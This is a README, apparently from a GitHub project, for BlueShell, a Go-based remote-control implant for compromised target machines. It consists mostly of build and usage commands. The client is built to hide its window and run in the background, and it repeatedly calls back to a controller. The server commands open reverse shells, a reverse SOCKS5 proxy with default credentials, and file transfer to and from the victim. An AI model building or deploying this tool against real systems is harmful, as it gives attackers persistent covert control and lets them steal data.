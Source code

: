 BlueShell
===
BlueShell是一个跨平台的持续远控工具，拿下靶机后部署BlueShell Client端，Client端会每隔固定时间向C&C Server发起反弹连接尝试，Server启动并连接Client端后，即可实现对靶机的持续控制，目前支持的主要功能有：
+ 跨平台，支持Linux、Windows、MacOS
+ 交互式Shell反弹（Windows只支持普通反弹Shell）
+ Socks5反弹代理
+ 文件上传、下载
+ TLS通信加密

编译
---

### Linux and MacOS
生成bsClient
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w " -o bsClient client.go
```
生成bsServer
```shell script
go get github.com/creack/pty
go get github.com/hashicorp/yamux
go get github.com/djimenez/iconv-go
go get golang.org/x/crypto/ssh/terminal

go build --ldflags "-s -w " -o bsServer server.go
```
### Windows
生成client
```shell script
go get github.com/armon/go-socks5
go get github.com/creack/pty
go get github.com/hashicorp/yamux

go build --ldflags "-s -w -H=windowsgui" -o bsClient.exe client.go
```

用法
---
### Client
在受控靶机上运行bsClient    
#### Windows靶机：    
默认配置模式启动
```shell script
start /b bsClient.exe
```
参数模式启动,-h指定远控端地址，-p远控端监听端口,-t尝试连接远控的间隔秒数
```shell script
start /b bsClient.exe -h 10.0.0.1 -p 443 -t 10
```
#### Linux and MacOS靶机:    
默认配置模式启动
```shell script
nohup bsClient &
```
参数模式启动,-h指定远控端地址，-p指定远控端监听端口
```shell script
nohup bsClient -h 10.0.0.1 -p 443 &
```
### C&C Server
远控端运行bsServer,需要是Linux机器
#### Action:反弹shell
默认启动，远控监听8081端口，执行反弹shell操作
```shell script
./bsServer
```
参数启动，-p指定远控监听443端口，-a指定执行反弹shell操作
```shell script
./bsServer -p 443 -a shell
```
windows靶机的乱码问题解决,-rencode指定靶机的编码类型
```shell script
./bsServer -rencode gb2312
```
#### Action:反弹Socks5代理
默认启动，远控监听8081端口，执行反弹socks操作，socks5的默认监听端口为7777，默认用户名blue，默认密码Blue@2020
```shell script
./bsServer -a socks
```
参数启动，-p指定远控监听443端口，-a指定执行反弹socks操作,-sport指定socks监听的端口为7778，-suser指定socks代理的认证账号，-spass指定socks代理的认证密码
```shell script
./bsServer -p 443 -a socks -sport 7778 -suser socksUser -spass socksPassword
```
#### Action:文件上传下载
上传本地文件到受控靶机，-lpath指定需要上传的本地文件路径，-rdir指定上传到的目录
```shell script
./bsServer -a upload -lpath /tmp/tmp.txt -rdir c:\\
```
从受控靶机下载文件到本地，-rpath指定需要下载的文件地址，-ldir指定存放下载文件的本地路径
```shell script
./bsServer -a upload -rpath c:\\tmp.txt -ldir /tmp
```

参考
---
+ https://github.com/sysdream/hershell
+ https://github.com/creaktive/tsh